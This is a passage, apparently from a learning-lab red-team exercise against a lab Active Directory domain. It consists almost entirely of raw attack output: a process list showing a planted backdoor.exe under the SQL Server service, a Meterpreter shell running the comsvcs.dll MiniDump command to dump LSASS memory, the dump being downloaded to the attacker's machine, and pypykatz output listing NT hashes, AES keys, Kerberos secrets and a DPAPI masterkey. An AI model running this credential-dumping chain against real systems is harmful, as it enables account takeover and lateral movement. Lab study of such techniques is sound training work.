 1200  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1244  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1264  672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 1416  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1452  672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 1468  672   svchost.exe                  x64   1        SQL-SRV\Administrator               C:\Windows\System32\svchost.exe
 1480  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1540  672   vmacthlp.exe                 x64   0        NT AUTHORITY\SYSTEM                 C:\Program Files\VMware\VMware Tools\vmacthlp.exe
 1596  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1644  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1660  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1676  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1684  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1756  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1788  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1816  828   RuntimeBroker.exe            x64   1        SQL-SRV\Administrator               C:\Windows\System32\RuntimeBroker.exe
 1828  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1836  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 1884  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1952  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1960  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 1984  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2040  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2096  672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 2164  828   SearchApp.exe                x64   1        SQL-SRV\Administrator               C:\Windows\SystemApps\Microsoft.Windows.Search_cw5n1h2txyewy\SearchApp.exe
 2252  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2360  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2400  828   TextInputHost.exe            x64   1        SQL-SRV\Administrator               C:\Windows\SystemApps\MicrosoftWindows.Client.CBS_cw5n1h2txyewy\TextInputHost.exe
 2408  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2420  672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 2432  828   StartMenuExperienceHost.exe  x64   1        SQL-SRV\Administrator               C:\Windows\SystemApps\Microsoft.Windows.StartMenuExperienceHost_cw5n1h2txyewy\StartMenuExperienceHost.exe
 2468  672   spoolsv.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\spoolsv.exe
 2536  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2572  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2592  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2600  672   svchost.exe                  x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\svchost.exe
 2660  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 2708  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2716  672   sqlceip.exe                  x64   0        NT SERVICE\SQLTELEMETRY$SQLEXPRESS  C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqlceip.exe
 2748  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2764  672   sqlwriter.exe                x64   0        NT AUTHORITY\SYSTEM                 C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe
 2788  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2824  828   RuntimeBroker.exe            x64   1        SQL-SRV\Administrator               C:\Windows\System32\RuntimeBroker.exe
 2836  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2880  672   vmtoolsd.exe                 x64   0        NT AUTHORITY\SYSTEM                 C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 2892  672   VGAuthService.exe            x64   0        NT AUTHORITY\SYSTEM                 C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe
 2900  672   ManagementAgentHost.exe      x64   0        NT AUTHORITY\SYSTEM                 C:\Program Files\VMware\VMware Tools\VMware CAF\pme\bin\ManagementAgentHost.exe
 2928  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 2936  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 3012  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 3036  1788  taskhostw.exe                x64   1        SQL-SRV\Administrator               C:\Windows\System32\taskhostw.exe
 3128  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 3304  2320  explorer.exe                 x64   1        SQL-SRV\Administrator               C:\Windows\explorer.exe
 3396  2572  AggregatorHost.exe           x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\AggregatorHost.exe
 3520  672   dllhost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\dllhost.exe
 3632  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 3756  672   svchost.exe                  x64   0        NT AUTHORITY\LOCAL SERVICE          C:\Windows\System32\svchost.exe
 3788  672   msdtc.exe                    x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\msdtc.exe
 3804  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 3924  2708  ctfmon.exe                   x64   1        SQL-SRV\Administrator               C:\Windows\System32\ctfmon.exe
 3960  672   svchost.exe                  x64   1        SQL-SRV\Administrator               C:\Windows\System32\svchost.exe
 4004  828   WmiPrvSE.exe                 x64   0        NT AUTHORITY\NETWORK SERVICE        C:\Windows\System32\wbem\WmiPrvSE.exe
 4264  1788  MicrosoftEdgeUpdate.exe      x86   0        NT AUTHORITY\SYSTEM                 C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe
 4500  672   sqlservr.exe                 x64   0        NT SERVICE\MSSQL$SQLEXPRESS         C:\Program Files\Microsoft SQL Server\MSSQL16.SQLEXPRESS\MSSQL\Binn\sqlservr.exe
 4552  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 4744  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 4812  2252  sihost.exe                   x64   1        SQL-SRV\Administrator               C:\Windows\System32\sihost.exe
 4892  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 4948  672   svchost.exe                  x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\svchost.exe
 4996  4500  cmd.exe                      x64   0        NT SERVICE\MSSQL$SQLEXPRESS         C:\Windows\System32\cmd.exe
 5012  4996  backdoor.exe                 x64   0        NT SERVICE\MSSQL$SQLEXPRESS         C:\temp\backdoor.exe
 5024  672   snmptrap.exe                 x64   0        TELECORE\tel_engineer01             C:\Windows\System32\snmptrap.exe
 5308  828   RuntimeBroker.exe            x64   1        SQL-SRV\Administrator               C:\Windows\System32\RuntimeBroker.exe
 5352  672   svchost.exe                  x64   1        SQL-SRV\Administrator               C:\Windows\System32\svchost.exe
 5776  3304  vmtoolsd.exe                 x64   1        SQL-SRV\Administrator               C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 6132  828   MoUsoCoreWorker.exe          x64   0        NT AUTHORITY\SYSTEM                 C:\Windows\System32\MoUsoCoreWorker.exe

```

```bash
meterpreter > shell
Process 6028 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.1006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 688 C:\Windows\Temp\lsass.dmp full               
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 688 C:\Windows\Temp\lsass.dmp full

C:\Windows\system32>cd ..
cd ..

C:\Windows>cd temp
cd temp

C:\Windows\Temp>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 16CF-4943

 Directory of C:\Windows\Temp

11/26/2025  03:09 AM    <DIR>          .
08/18/2025  11:04 PM    <DIR>          ..
11/26/2025  03:09 AM        48,129,003 lsass.dmp
11/25/2025  09:01 PM            21,990 vmware-vmsvc.log
10/04/2025  11:57 PM             8,216 vmware-vmusr.log
               3 File(s)     48,159,209 bytes
               2 Dir(s)  28,564,119,552 bytes free

C:\Windows\Temp>
```

```bash
msf exploit(multi/handler) > sessions -i 6 --timeout 60
[*] Starting interaction with 6...

meterpreter >
```

```bash
meterpreter > download lsass.dmp
[*] Downloading: lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 1.00 MiB of 45.90 MiB (2.18%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 2.00 MiB of 45.90 MiB (4.36%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 3.00 MiB of 45.90 MiB (6.54%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 4.00 MiB of 45.90 MiB (8.71%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 5.00 MiB of 45.90 MiB (10.89%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 6.00 MiB of 45.90 MiB (13.07%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 7.00 MiB of 45.90 MiB (15.25%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 8.00 MiB of 45.90 MiB (17.43%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 9.00 MiB of 45.90 MiB (19.61%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 10.00 MiB of 45.90 MiB (21.79%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 11.00 MiB of 45.90 MiB (23.97%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 12.00 MiB of 45.90 MiB (26.14%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 13.00 MiB of 45.90 MiB (28.32%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 14.00 MiB of 45.90 MiB (30.5%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 15.00 MiB of 45.90 MiB (32.68%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 16.00 MiB of 45.90 MiB (34.86%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 17.00 MiB of 45.90 MiB (37.04%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 18.00 MiB of 45.90 MiB (39.22%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 19.00 MiB of 45.90 MiB (41.39%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 20.00 MiB of 45.90 MiB (43.57%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 21.00 MiB of 45.90 MiB (45.75%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 22.00 MiB of 45.90 MiB (47.93%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 23.00 MiB of 45.90 MiB (50.11%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 24.00 MiB of 45.90 MiB (52.29%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 25.00 MiB of 45.90 MiB (54.47%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 26.00 MiB of 45.90 MiB (56.65%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 27.00 MiB of 45.90 MiB (58.82%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 28.00 MiB of 45.90 MiB (61.0%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 29.00 MiB of 45.90 MiB (63.18%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 30.00 MiB of 45.90 MiB (65.36%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 31.00 MiB of 45.90 MiB (67.54%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 32.00 MiB of 45.90 MiB (69.72%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 33.00 MiB of 45.90 MiB (71.9%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 34.00 MiB of 45.90 MiB (74.08%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 35.00 MiB of 45.90 MiB (76.25%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 36.00 MiB of 45.90 MiB (78.43%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 37.00 MiB of 45.90 MiB (80.61%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 38.00 MiB of 45.90 MiB (82.79%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 39.00 MiB of 45.90 MiB (84.97%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 40.00 MiB of 45.90 MiB (87.15%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 41.00 MiB of 45.90 MiB (89.33%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 42.00 MiB of 45.90 MiB (91.5%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 43.00 MiB of 45.90 MiB (93.68%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 44.00 MiB of 45.90 MiB (95.86%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 45.00 MiB of 45.90 MiB (98.04%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Downloaded 45.90 MiB of 45.90 MiB (100.0%): lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
[*] Completed  : lsass.dmp -> /home/kali/learning/AD-RTS/lsass.dmp
```

```bash
─$ pypykatz lsa minidump lsass.dmp
INFO:pypykatz:Parsing file lsass.dmp
FILE: ======== lsass.dmp =======
== LogonSession ==
authentication_id 439499 (6b4cb)
session_id 0
username SQLTELEMETRY$SQLEXPRESS
domainname NT Service
logon_server 
logon_time 2025-10-04T11:26:12.852576+00:00
sid S-1-5-80-1985561900-798682989-2213159822-1904180398-3434236965
luid 439499
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [6b4cb]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 2f2effaa3bbb8acb54bf1cc902017a8a34749b680c4b98a81661900103d7c870
        == WDIGEST [6b4cb]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 70732 (1144c)
session_id 1
username DWM-1
domainname Window Manager
logon_server 
logon_time 2025-10-04T11:23:57.711031+00:00
sid S-1-5-90-0-1
luid 70732
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 538579cf644ca762ecdb70f12272fae2
                SHA1: c3d0ae73896f0d1802ab23f25204c4a68d2e33a5
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [1144c]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: 060f16ef88fd7f51dfd43f879f598323271a329b9c7e1022da4c11040c0247bb183c323d997d15658f301e970e07182bdaa1908aad473e11bc49d3b7042493dac6325fe7727600cb7beae1baff346714b0633a1d32edacb3a755b532d037df6916ed3975619877ee3f12afdf7f8f3cb5269d8f6e105d8d21188749b6be478049de6be203b4a4ccf44ac4fe8ca5780622495abef379a582df62c83d5e5312e17e08423345456dfcae0ab7f9700dbaad102f694b443ad9819263b86815f9a8a856e215235032db8ac5e8cdc1be02f373cce94e46cd7b353b19403963b2f30e571ee71c3391d445f277f879cf4875585436
                password (hex)060f16ef88fd7f51dfd43f879f598323271a329b9c7e1022da4c11040c0247bb183c323d997d15658f301e970e07182bdaa1908aad473e11bc49d3b7042493dac6325fe7727600cb7beae1baff346714b0633a1d32edacb3a755b532d037df6916ed3975619877ee3f12afdf7f8f3cb5269d8f6e105d8d21188749b6be478049de6be203b4a4ccf44ac4fe8ca5780622495abef379a582df62c83d5e5312e17e08423345456dfcae0ab7f9700dbaad102f694b443ad9819263b86815f9a8a856e215235032db8ac5e8cdc1be02f373cce94e46cd7b353b19403963b2f30e571ee71c3391d445f277f879cf4875585436
                AES128 Key: 538579cf644ca762ecdb70f12272fae2
                AES256 Key: 35e138de27532efc40a33d6db8ec3043e422ddccf50230656985b1e6519a3489
        == WDIGEST [1144c]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 48157 (bc1d)
session_id 0
username UMFD-0
domainname Font Driver Host
logon_server 
logon_time 2025-10-04T11:23:57.512306+00:00
sid S-1-5-96-0-0
luid 48157
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [bc1d]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 2f2effaa3bbb8acb54bf1cc902017a8a34749b680c4b98a81661900103d7c870
        == WDIGEST [bc1d]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 23441205 (165af35)
session_id 0
username tel_support01
domainname TELECORE
logon_server DC01
logon_time 2025-11-26T10:23:16.838029+00:00
sid S-1-5-21-1588247407-410625039-1511794522-1116
luid 23441205

== LogonSession ==
authentication_id 48142 (bc0e)
session_id 1
username UMFD-1
domainname Font Driver Host
logon_server 
logon_time 2025-10-04T11:23:57.512306+00:00
sid S-1-5-96-0-1
luid 48142
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [bc0e]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 2f2effaa3bbb8acb54bf1cc902017a8a34749b680c4b98a81661900103d7c870
        == WDIGEST [bc0e]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)

== LogonSession ==
authentication_id 999 (3e7)
session_id 0
username SQL-SRV$
domainname TELECORE
logon_server 
logon_time 2025-10-04T11:23:57.364185+00:00
sid S-1-5-18
luid 999
        == WDIGEST [3e7]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: sql-srv$
                Domain: TELECORE.AD
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 34971434b95420f96f734a478104139529c6190336d5a6305a6474274eb98657
        == WDIGEST [3e7]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == DPAPI [3e7]==
                luid 999
                key_guid e0c3a560-0e21-4ac8-b330-b5ebb56b2dbd
                masterkey fb0bba8e8687222dd6f6ec852598d2103ce12d38b76f5e39f73dc752e707b97e77544bc7d0226d000cbe6170b485e4d7e597aa7b65e16134475f2b2db8ede4fb
                sha1_masterkey 281272fbb34e9ebfb692c910803f7cb15f8d1b2c

== LogonSession ==
authentication_id 2063082 (1f7aea)
session_id 0
username tel_support01
domainname TELECORE
logon_server DC01
logon_time 2025-10-04T13:06:44.227583+00:00
sid S-1-5-21-1588247407-410625039-1511794522-1116
luid 2063082

== LogonSession ==
authentication_id 400198 (61b46)
session_id 0
username MSSQL$SQLEXPRESS
domainname NT Service
logon_server 
logon_time 2025-10-04T11:25:59.149463+00:00
sid S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133
luid 400198
        == MSV ==
                Username: SQL-SRV$
                Domain: TELECORE
                LM: NA
                NT: 813b1002de4a86ee72e6feec4f56d15d
                SHA1: 316bd0f6a40b38c34a74191d53a1c15596c0bbf3
                DPAPI: 0000000000000000000000000000000000000000
        == WDIGEST [61b46]==
                username SQL-SRV$
                domainname TELECORE
                password None
                password (hex)
        == Kerberos ==
                Username: SQL-SRV$
                Domain: telecore.ad
                Password: db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                password (hex)db6f26560eccd16ee616eb9ff18954bb04a291c2c67af368d2ebdbee9c6e2c28c953ae5c1b3fae68219fdbf320d9fc2c1e106e22048aac2a480feaeb71c5cbf0be41c0bfe6206f2641a0f48a735fc16cae31a5c4de5bb4ef6f03add5cd433114859fc5747f77b04d00402a6eaebf40273efee18d109af8c4446a371b9536c5ffaf35274f8ec20ecab31a1af5b959fa89fff443e24e9e3f8a29b17f7e7cbfb5f3aada51f81eadb141d81e4799a4e1045472b0cd37f8db4f706447f2e31237de5a72d9c54eede54cf19425ad82d14cd540e0813c251cd6a862fb05784274001c046cb2a2a3a1936b65f900e7a80446d8b4
                AES128 Key: 813b1002de4a86ee72e6feec4f56d15d
                AES256 Key: 2f2effaa3bbb8acb54bf1cc902017a8a34749b680c4b98a81661900103d7c870
